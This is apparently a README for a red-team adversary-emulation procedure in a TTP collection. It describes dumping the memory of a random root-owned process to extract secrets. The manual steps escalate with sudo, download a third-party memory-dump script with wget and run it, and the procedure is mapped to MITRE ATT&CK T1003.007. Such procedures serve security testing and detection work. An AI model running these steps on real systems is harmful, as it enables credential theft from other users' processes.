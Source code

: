# Extract Secrets from Memory

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP dumps the memory of a process for a target user as root. It uses the `memory-dump.sh` script from the [bash-memory-dump](https://github.com/hajzer/bash-memory-dump) repository to perform the memory dump.

## Arguments

- **target_user**: The username of the target user whose process memory will be dumped. Defaults to "root".

## Prerequisites

1. This TTP must be run as the root user in order to successfully dump the memory of a process owned by another user.

## Usage

You can run the TTP using the following example:
```bash
ttpforge run forgearmory//credential-access/extract-secrets-from-memory/extract-secrets-from-memory.yaml
```

## Steps

1. Make the script executable.
2. Clone [bash-memory-dump](https://github.com/hajzer/bash-memory-dump) (1fbb54871f6fdd8fc90d181d6705749ea0d797c6) from Github.
3. Run the `memory-dump.sh` script to dump the memory of a random process owned by the target user. The memory dump is saved in a directory named "MEMDUMPS-of-PID-{pid}", where {pid} is the process ID of the target process.
4. Check if the memory dump was successfully created. If it was, the TTP exits with a success message. Otherwise, it exits with an error message.

## Manual Reproduction Steps

```
# Escalate privileges to root
sudo su

# Download memory-dump
wget https://raw.githubusercontent.com/hajzer/bash-memory-dump/master/memory-dump.sh

target_user='root'
target_pids=( $(ps -u ${target_user} | awk -F ' ' '{print $1}') )

# Pick random PID from the list
rand_pid="$(echo ${target_pids[RANDOM%${#target_pids[@]}]})"

# Run memory-dump
sudo bash -x memory-dump.sh -p "${rand_pid}" -m all -d dd

# Clean up
rm -rf "MEMDUMPS-of-PID-${rand_pid}"
rm memory-dump.sh
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0006 Credential Access
- **Techniques**:
  - T1003 OS Credential Dumping
- **Subtechniques**:
  - T1003.007 OS Credential Dumping Proc Filesystem
